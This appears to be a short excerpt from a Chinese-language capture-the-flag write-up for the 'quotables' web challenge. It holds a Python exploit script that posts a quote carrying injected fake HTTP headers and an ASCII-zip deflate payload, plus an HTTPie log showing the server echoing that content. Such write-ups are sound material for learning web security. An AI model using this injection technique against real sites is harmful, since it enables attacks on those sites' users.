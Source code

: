 ```python
headers = {
    'Origin': 'http://quotables.pwni.ng:1337',
    'Content-Type': 'application/x-www-form-urlencoded; charset=utf-8',
}


# just using ascii-zip
wow = 'D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3SUUnUUUwCiudIbEAtwwwEtswGpDttpDDwt3ww03sG333333swwG03333sDDdFPiOMwSgoZOwMYzcoogqffVAaFVvaFvQFVaAfgkuSmVvNnFsOzyifOMwSgoy4'

data = {
  'quote': 'HTTP/1.0 200 OK\r\nHTTP/1.0 302 OK\r\nContent-Encoding: deflate\r\nContent-Type: text/html;\r\nContent-Lexngth: {length}\r\n\r\n'.format(length=len(wow)) + wow,
  'attribution': ''
}

response = requests.post('http://quotables.pwni.ng:1337/quotes/new', headers=headers, data=data)
key = response.history[0].headers['Location'].split('quote#')[1]
print(key)
```

此时这个quote的内容如下：

```
➜  ~ http -v  http://quotables.pwni.ng:1337/api/quote/b4ed6ec7-ca25-47a8-bc9a-0af477e805ad
GET /api/quote/b4ed6ec7-ca25-47a8-bc9a-0af477e805ad HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: quotables.pwni.ng:1337
User-Agent: HTTPie/0.9.9



HTTP/1.0 200 OK
Content-Length: 272
Content-Security-Policy: default-src 'none'; script-src 'nonce-N1Y7jw0BZ4o6qEL3UsNEJQ=='; style-src 'self'; img-src 'self'; connect-src 'self'
Content-Type: text/plain; charset=utf-8
Date: Mon, 15 Apr 2019 08:33:07 GMT
Server: Werkzeug/0.15.2 Python/3.6.7

HTTP/1.0 200 OK
HTTP/1.0 302 OK
Content-Encoding: deflate
Content-Type: text/html;
Content-Lexngth: 158

D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3SUUnUUUwCiudIbEAtwwwEtswGpDttpDDwt3ww03sG333333swwG03333sDDdFPiOMwSgoZOwMYzcoogqffVAaFVvaFvQFVaAfgkuSmVvNnFsOzyifOMwSgoy4
-
```
